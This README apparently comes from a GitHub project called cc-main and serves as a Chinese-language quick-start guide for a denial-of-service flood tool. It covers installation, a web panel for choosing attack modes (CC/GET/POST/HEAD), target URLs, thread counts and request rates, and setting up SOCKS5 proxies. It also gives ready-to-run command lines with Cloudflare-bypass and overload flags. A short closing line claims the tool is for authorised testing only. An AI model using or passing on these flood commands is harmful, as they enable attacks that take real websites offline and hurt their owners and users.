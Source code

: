 # 🚀 快速启动指南

## 一键安装并启动

### 1. 克隆项目
```bash
git clone https://github.com/wudi2898/cc-main.git
cd cc-main
```

### 2. 一键安装
```bash
sudo chmod +x install.sh
sudo ./install.sh
```

### 3. 访问Web面板
安装完成后，自动打开浏览器访问：
- **本地访问**: http://localhost:5000
- **远程访问**: http://你的IP:5000

## 管理命令

### 服务管理
```bash
cc-start      # 启动服务
cc-stop       # 停止服务
cc-restart    # 重启服务
cc-status     # 查看状态
cc-logs       # 查看日志
```

### 手动启动
```bash
# 前台启动
./start_panel.sh

# 后台启动
./start_panel.sh -b

# 调试模式
./start_panel.sh -d

# 指定端口
./start_panel.sh -p 8080
```

## 配置代理

### 编辑代理文件
```bash
sudo nano /opt/cc-main/config/socks5.txt
```

添加SOCKS5代理，每行一个：
```
127.0.0.1:1080
192.168.1.100:7890
proxy.example.com:1080
```

### 重启服务
```bash
cc-restart
```

## 使用Web面板

### 1. 创建任务
- 选择攻击模式：CC/GET/POST/HEAD
- 输入目标URL
- 设置线程数和RPS
- 配置高级参数

### 2. 启动任务
- 点击"启动任务"
- 实时查看日志
- 监控系统状态

### 3. 停止任务
- 点击"停止任务"
- 查看统计报告

## 命令行使用

### 基础攻击
```bash
# 进入安装目录
cd /opt/cc-main

# 激活虚拟环境
source venv/bin/activate

# 运行攻击
python3 main.py cc https://target.com 100 10
```

### 高级参数
```bash
python3 main.py cc https://target.com 500 50 \
  --cf-bypass \
  --overload \
  --fire-and-forget \
  --max-connections 5000
```

## 故障排除

### 服务未启动
```bash
# 查看状态
cc-status

# 查看日志
cc-logs

# 重启服务
cc-restart
```

### 代理连接失败
```bash
# 测试代理
python3 main.py check https://httpbin.org/ip 1 1

# 检查代理文件
cat /opt/cc-main/config/socks5.txt

# 验证依赖
python3 -c "import flask, flask_socketio, psutil, socks; print('依赖正常')"
```

### 端口被占用
```bash
# 查看端口占用
lsof -i :5000

# 使用其他端口
./start_panel.sh -p 8080
```

## 卸载

### 完全卸载
```bash
sudo ./uninstall.sh
```

## 注意事项

⚠️ **重要提醒**：
- 仅用于授权的安全测试
- 遵守当地法律法规
- 获得目标系统明确授权
- 承担使用后果和责任

## 技术支持

- **项目地址**: https://github.com/wudi2898/cc-main
- **问题反馈**: 提交Issue
- **功能建议**: 提交Pull Request